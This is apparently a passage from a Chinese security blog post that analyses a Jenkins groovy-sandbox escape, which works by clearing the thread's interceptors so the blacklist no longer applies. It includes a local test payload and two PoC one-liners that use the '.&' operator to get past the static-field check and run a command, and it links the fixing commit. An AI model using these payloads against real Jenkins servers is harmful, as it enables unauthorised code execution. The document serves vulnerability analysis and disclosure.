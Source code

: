 在script-security 1.58版本中把这部分代码放到了GroovySandbox.Scope enter()方法中

![1568859792340](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568859792340.png)

而register()方法的功能是通过`threadInterceptors.get().add()`为当前线程注册拦截器

```java
public void register() {
    ((List)threadInterceptors.get()).add(this);
}
```

该漏洞的利用点就是在`threadInterceptors.get()`获取到线程信息之后，再调用clear()方法清除当前线程的所有拦截器，使黑名单失效，然后就可以注入自定义代码来绕过沙箱

本地测试一下

```groovy
({ org.kohsuke.groovy.sandbox.GroovyInterceptor.threadInterceptors.get().clear(); "calc" }()).execute();
```

![1568861762489](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568861762489.png)

但是直接发送这个脚本会被`org.jenkinsci.plugins.scriptsecurity.sandbox.whitelists.StaticWhitelist#rejectStaticField()`拦截，于是可以在`execute`之前利用`.&`操作符绕过

或者利用这个[issue](https://github.com/jenkinsci/groovy-sandbox/issues/54)的方式，在此处`.&`并没有起到实质调用的作用，只是为了绕过Jenkins对`staticField`的检查

#### PoC

PoC的变化也多种多样，可以通过上面分析的`Matrix Project Plugin`插件触发

- Poc1

    ```java
    ({ org.kohsuke.groovy.sandbox.GroovyInterceptor.threadInterceptors.get().clear(); "calc" }().&toString).execute();
    ```

- PoC2

    ```java
    1.&({ org.kohsuke.groovy.sandbox.GroovyInterceptor.threadInterceptors.get().clear(); 'x' }()); 'calc'.execute()
    ```

![1568792275964](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568792275964.png)

#### 补丁

- jenkinsci/groovy-sandbox [commit](https://github.com/jenkinsci/groovy-sandbox/commit/e30cd28d7b30cd606e78c22174cb04e0450244a7)
- 概述：在方法指针表达式增加了transform检查

![1568801252778](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568801252778.png)

